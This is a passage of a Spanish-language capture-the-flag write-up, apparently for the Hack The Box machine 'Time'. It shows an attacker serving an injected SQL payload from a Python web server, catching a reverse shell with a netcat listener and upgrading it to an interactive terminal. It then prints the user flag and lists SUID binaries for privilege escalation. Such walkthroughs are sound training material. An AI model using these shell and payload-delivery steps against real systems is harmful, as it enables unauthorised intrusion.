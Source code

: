 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.141.133 - - [27/Jul/2023 13:47:04] "GET /inject.sql HTTP/1.1" 200 -
```

Ahora obtenemos una consola interactiva

```bash
pericles@time:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
pericles@time:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
pericles@time:/var/www/html$ export TERM=xterm
```

## User flag

```bash
pericles@time:/home/pericles$ cat user.txt 
031f4fc3e0fa4e5d4b8e33e819da2592
pericles@time:/home/pericles$ 
```

## Escalada de privilegios

Bueno no vamos a explotar el `pkexec` por que no es la idea

```bash
pericles@time:/$ find \-perm -4000 2>/dev/null | grep -v "snap"
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/bin/at
./usr/bin/fusermount
./usr/bin/chfn
./usr/bin/pkexec
./usr/bin/mount
./usr/bin/sudo
./usr/bin/su
./usr/bin/gpasswd
./usr/bin/umount
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/newgrp
pericles@time:/$ 
```
